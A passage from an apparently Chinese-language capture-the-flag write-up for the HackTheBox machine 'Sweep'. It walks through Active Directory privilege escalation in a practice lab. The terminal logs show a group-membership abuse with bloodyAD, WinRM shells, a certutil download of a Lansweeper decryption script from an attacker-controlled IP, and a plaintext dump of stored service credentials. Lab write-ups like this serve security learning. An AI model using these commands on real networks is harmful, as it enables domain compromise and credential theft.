┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo $pass1
0|5m-U6?/uAX

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc smb $ip -u $user1 -p $pass1
SMB         10.129.203.20   445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domin:sweep.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.203.20   445    INVENTORY        [+] sweep.vl\svc_inventory_lnx:0|5m-U6?/uAX 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc winrm $ip -u $user1 -p $pass1
WINRM       10.129.203.20   5985   INVENTORY        [*] Windows Server 2022 Build 20348 (name:INVENTORY) (domain:sweep.vl) 
WINRM       10.129.203.20   5985   INVENTORY        [-] sweep.vl\svc_inventory_lnx:0|5m-U6?/uAX
```
存在权限但是没有winrm，回头这个用户的猎犬



有出站，可以将自己添加入LANSWEEPER ADMINS组，并且LANSWEEPER ADMINS组属于远程管理组



远程加入组成功
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ bloodyAD --host "$ip" -d "$domain" -u $user1 -p $pass1 add groupMember "LANSWEEPER ADMINS" "$user"
[+] svc_inventory_lnx added to LANSWEEPER ADMINS

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc winrm $ip -u $user1 -p $pass1
WINRM       10.129.203.20   5985   INVENTORY        [*] Windows Server 2022 Build 20348 (name:INVENTORY) (domain:sweep.vl) 
WINRM       10.129.203.20   5985   INVENTORY        [+] sweep.vl\svc_inventory_lnx:0|5m-U6?/uAX (Pwn3d!)
```
登陆获取user.txt
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ evil-winrm -i $ip -u $user1 -p $pass1
                                        
Evil-WinRM shell v3.7 
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline 
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion 
                                        
Info: Establishing connection to remote endpoint 
*Evil-WinRM* PS C:\Users\svc_inventory_lnx\Documents> cd ../../../
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         7/31/2025   4:06 AM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         7/28/2025   4:38 PM                Program Files
d-----          2/8/2024  12:17 PM                Program Files (x86)
d-r---         8/27/2025   7:43 AM                Users
d-----         7/31/2025   4:11 AM                Windows
-a----          8/5/2025   5:45 AM             33 user.txt


*Evil-WinRM* PS C:\> type user.txt
d2d89a8******************165

```
## 提权
钻了一会兔子洞，dpapi没有信息，winpeas扫到了Lansweeper的凭证信息位于
```zsh
*Evil-WinRM* PS C:\> cd 'C:\Program Files (x86)\Lansweeper\Key'
*Evil-WinRM* PS C:\Program Files (x86)\Lansweeper\Key> dir


    Directory: C:\Program Files (x86)\Lansweeper\Key


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          2/8/2024  11:48 AM           1024 Encryption.txt

```
但是它是加密的，我们可以简单枚举一下就找到能利用的工具

```zsh
https://github.com/Yeeb1/SharpLansweeperDecrypt
```
环境应该存在一定的防护，但是我懒得检测，evil的上传失效，所以起py传上去

```zsh
*Evil-WinRM* PS C:\windows\tasks> certutil -urlcache -split -f http://10.10.16.22/LansweeperDecrypt.ps1 C:\windows\tasks\LansweeperDecrypt.ps1
****  Online  ****
  0000  ...
  10b3
CertUtil: -URLCache command completed successfully
```
powershell运行后会自动解密凭证库

```zsh
*Evil-WinRM* PS C:\windows\tasks> powershell .\LansweeperDecrypt.ps1
[+] Loading web.config file...
[+] Found protected connectionStrings section. Decrypting...
[+] Decrypted connectionStrings section:
<connectionStrings>
    <add name="lansweeper" connectionString="Data Source=(localdb)\.\LSInstance;Initial Catalog=lansweeperdb;Integrated Security=False;User ID=lansweeperuser;Password=Uk2)Dw3!Wf1)Hh;Connect Timeout=10;Application Name=&quot;LsService Core .Net SqlClient Data Provider&quot;" providerName="System.Data.SqlClient" />
</connectionStrings>
[+] Opening connection to the database...
[+] Retrieving credentials from the database...
[+] Decrypting password for user: SNMP Community String
[+] Decrypting password for user:
[+] Decrypting password for user: SWEEP\svc_inventory_win
[+] Decrypting password for user: svc_inventory_lnx
[+] Credentials retrieved and decrypted successfully:

CredName          Username                Password
--------          --------                --------
SNMP-Private      SNMP Community String   private
Global SNMP                               public
Inventory Windows SWEEP\svc_inventory_win 4^56!sK&}eA?
Inventory Linux   svc_inventory_lnx       0|5m-U6?/uAX


[+] Database connection closed.
*Evil-WinRM* PS C:\windows\tasks> 
```

还记得吗，这个win是域管，所以直接登陆获得root

```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo user2=svc_inventory_win>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo pass2='4^56!sK&}eA?'>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ vim start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ . start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo $pass2
4^56!sK&}eA?

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ evil-winrm -i $ip -u $user2 -p $pass2
                                        
Evil-WinRM shell v3.7 
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline 
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion 
                                        
Info: Establishing connection to remote endpoint 
*Evil-WinRM* PS C:\Users\svc_inventory_win\Documents> cd ../desk*
*Evil-WinRM* PS C:\Users\svc_inventory_win\Desktop> type root.txt
Cannot find path 'C:\Users\svc_inventory_win\Desktop\root.txt' because it does not exist.
At line:1 char:1
+ type root.txt
+ ~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\svc_in...esktop\root.txt:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\svc_inventory_win\Desktop> cd ../../administrator/des*
*Evil-WinRM* PS C:\Users\administrator\Desktop> type root.txt
71770ae*****************77cc65
```
不算难的机器，但是有少许兔子洞，挺好玩的